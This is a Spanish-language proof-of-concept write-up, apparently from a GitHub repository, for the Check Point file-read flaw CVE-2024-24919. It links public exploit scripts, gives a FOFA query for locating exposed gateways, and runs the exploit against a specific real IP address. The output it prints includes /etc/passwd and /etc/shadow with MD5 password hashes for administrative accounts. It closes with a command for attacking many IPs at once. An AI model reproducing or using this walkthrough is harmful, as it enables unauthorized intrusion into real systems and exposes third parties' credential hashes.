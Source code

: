 # Check Point - CVE-2024-24919
___
La vulnerabilidad catalogada con el CVE-2024–24919 y ha sido descrita como _information disclosure_, es decir, permite a un atacante acceder a información confidencial de la aplicación.

Para que el sistema sea vulnerable es necesario que estén habilitados o el acceso remoto con la VPN Blade IPsec, o el software de acceso móvil Blade.
___
## PoC
___
Descargamos el exploit desde la siguiente liga:
- https://github.com/LucasKatashi/CVE-2024-24919

Una vez descargado el exploit, buscamos portales vulenrables en *FOFA*.
```bash
FOFA Query: app="Check_Point-SSL-Network-Extender"
```

Identificamos un target vulnerable.
```bash
https://133.130.209.154/
```

Ejecutamos el exploit y obtenemos informacion del archivo. */etc/passwd*
```bash
python3 CVE-2024-24919.py -i 133.130.209.154        
### Never edit this file manually. In order to login as expert and allow scp access, run "bashUser on" ###
root:!:0:0:root:/:/bin/false
nobody:x:99:99:nobody:/nonexistent:/bin/false
ntp:x:38:38::/nonexistent:/bin/false
rpm:x:37:37::/nonexistent:/bin/false
pcap:x:77:77::/nonexistent:/bin/false
admin:x:0:0:Linux User,,,:/:/bin/clish
startia:x:0:0:Linux User,,,:/:/bin/clish
concierge:x:0:0:Linux User,,,:/:/bin/clish
cpsupport:x:0:0:Linux User,,,:/:/bin/clish
```

Con el parametro *-p*, logramos indicarle que archivo queremos leer.
```bash
┌──(mr-r00t㉿mr-r00t)-[~/Exploits/CVE-2024-24919]
└─$ python3 CVE-2024-24919.py -i 133.130.209.154 -p /etc/shadow
root:!:10957:0:99999:7:::
nobody:*:14392:0:99999:7:::
ntp:!!:14392:0:99999:7:::
rpm:!!:14392:0:99999:7:::
pcap:!!:14392:0:99999:7:::
admin:$1$AJChTh5/$iGtZcfNo1XpnSzmn77aVR0:18591:0:99999:7:::
startia:$1$s/n5blHT$Ur3/6RyZH.x2Vk8oaOxg80:18591:0:99999:7:::
concierge:$1$QsQdihGd$sSyNAlyDXw4tngMVeI4IS.:18393:0:99999:7:::
cpsupport:$1$iDycuNiN$848FzIAe.u/zgNfBe214k/:18393:0:99999:7:::
```

Atacar varias IP's a la vez.
- https://github.com/zam89/CVE-2024-24919

```bash
┌──(mr-r00t㉿mr-r00t)-[~/Exploits/CVE-2024-24919/CVE-2024-24919]
└─$ python3 CVE-2024-24919.py IP.txt output.txt
```
___
